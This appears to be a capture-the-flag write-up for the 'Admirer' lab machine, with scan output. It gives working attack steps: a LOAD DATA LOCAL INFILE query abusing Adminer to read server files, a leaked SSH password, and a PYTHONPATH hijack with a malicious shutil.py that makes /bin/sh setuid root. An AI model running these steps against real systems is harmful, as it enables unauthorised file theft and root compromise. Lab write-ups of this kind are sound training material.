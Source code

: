 # Admirer - 10.10.10.187

Robots.txt reveals `/admin-dir/` path in web service. Very thorough web scanning with gobuster reveals FTP credentials in a file `/admin-dir/credentials.txt`, and pulling down those files reveals new path `/utility-scripts`. Again, very thorough scanning with gobuster reveals `/utility-scripts/adminer.php` page, which has a vulnerability that lets you read local files even when connected to a remote MariaDB. Create your own MariaDB and use those creds to log into the adminer page. Run the following SQL query:

```mysql
LOAD DATA LOCAL INFILE '/var/www/html/index.php' 
INTO TABLE derp.data
FIELDS TERMINATED BY "\n"
```

Look in the table to get the database creds, which are also reused for `waldo` user to ssh (password: `&<h5b~yK3F#{PaPB&dA}{H>`). Create malicious `shutil.py` file in `/tmp` and run the following for privesc:

```sh
echo 'import os;os.system("chmod u+s /bin/sh");make_archive=lambda x,y,z:None' > /tmp/shutil.py
sudo -E PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh 6
/bin/sh # euid/egid now root
```

This takes advantage of the `SETENV` option under waldo's sudoers entry.

# nmap

```
❯ sudo rustscan --ulimit 5000 -a 10.10.10.187 -- -n -Pn -sV -sC -oA nmap-tcp-all

Nmap scan report for 10.10.10.187
Host is up, received user-set (0.015s latency).
Scanned at 2021-08-23 20:19:19 EDT for 8s

PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDaQHjxkc8zeXPgI5C7066uFJaB6EjvTGDEwbfl0cwM95npP9G8icv1F/YQgKxqqcGzl+pVaAybRnQxiZkrZHbnJlMzUzNTxxI5cy+7W0dRZN4VH4YjkXFrZRw6dx/5L1wP4qLtdQ0tLHmgzwJZO+111mrAGXMt0G+SCnQ30U7vp95EtIC0gbiGDx0dDVgMeg43+LkzWG+Nj+mQ5KCQBjDLFaZXwCp5Pqfrpf3AmERjoFHIE8Df4QO3lKT9Ov1HWcnfFuqSH/pl5+m83ecQGS1uxAaokNfn9Nkg12dZP1JSk+Tt28VrpOZDKhVvAQhXWONMTyuRJmVg/hnrSfxTwbM9
|   256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNHgxoAB6NHTQnBo+/MqdfMsEet9jVzP94okTOAWWMpWkWkT+X4EEWRzlxZKwb/dnt99LS8WNZkR0P9HQxMcIII=
|   256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBqp21lADoWZ+184z0m9zCpORbmmngq+h498H9JVf7kP
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/admin-dir
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Admirer
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```
